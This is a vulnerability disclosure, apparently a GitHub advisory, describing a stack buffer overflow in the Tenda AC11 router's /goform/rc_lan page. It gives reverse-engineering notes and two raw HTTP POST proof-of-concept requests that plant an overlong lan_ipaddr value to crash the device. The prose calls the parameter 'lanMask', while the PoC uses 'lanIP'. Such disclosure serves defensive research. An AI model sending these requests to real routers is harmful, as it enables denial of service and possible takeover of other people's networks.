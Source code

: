 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/rc_lan` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_80026358` (page `/goform/rc_lan`).

This function uses strcpy to copy a string variable lan_ipaddr to v16.

![1](1.PNG)

Then the function will go to get a nvram variable called by nvram_get function. v16 is string pointer of lan_ipaddr.So variable v1 will get a nvram variable of lan_ipaddr. After that ,v1 will copy to a stack buffer pointed by v12. v1 is directly retrived from the nvram variable lan_netmask without any security check.

![5](5.PNG)

the `lan_ipdaddr` variable can be controlled by attacker by calling the function `sub_800CC270`(page `/goform/start_dhcp_server`) which gets in a parameter called `lanMask` into varialbe `v10`, which can then be used to assign to the `lan_ipaddr` variable.

![2](2.PNG)

If function `gstrcmp_0(v43,v10)` doesn't return zero ,and function `sub_800d4cf8` returns zero, then the nvram variable `lan_ipaddr` will be set as `v10`.

`v10` is the input vector,and `v43` is a fix string, so it's easy to make them different to make function  `gstrcmp` returns not zero.

![3](3.PNG)


In function `sub_800d4cf8`,if we want it returns zero,we must make `strlen(a1)` is bigger than 7,it's easy to make.And the return value of function `sub_80236d90` must be zero. 

In function `sub_800236d90` , it will do IP legitimacy check.For example,`a1` is `192.168.1.1`,and it will use function like `atoi` to make string to number.And check like `192 < 256` , `168 < 256` , `1 < 256` and so on.But it will not check the length. So we can get a very long string like `192.168.1.0000000000000000000000000000000000000000000000000000000000000000000000001` but also pass the check .And after the check,function `sub_80236d90` will give `v4` a 4-bytes ip address like `0xc0a80101`. If `a1` can pass the check, `v2` will be zero, but `a1` will not get changed and will be set in nvram variable `lan_ipaddr`. So we can make `lan_ipaddr` variable in nvram is a very long string.


![4](4.PNG)


So by first setting the `lan_ipaddr` and then requesting the page `/goform/rc_lan`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&lanIP=192.168.1.000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=1270219&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/rc_lan HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9 
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@Lnkvct](https://github.com/Lnkvct) , and [@peanuts](https://github.com/peanuts62) from Shanghai Jiao Tong University  and TIANGONG Team of Legendsec at Qi'anxin Group.
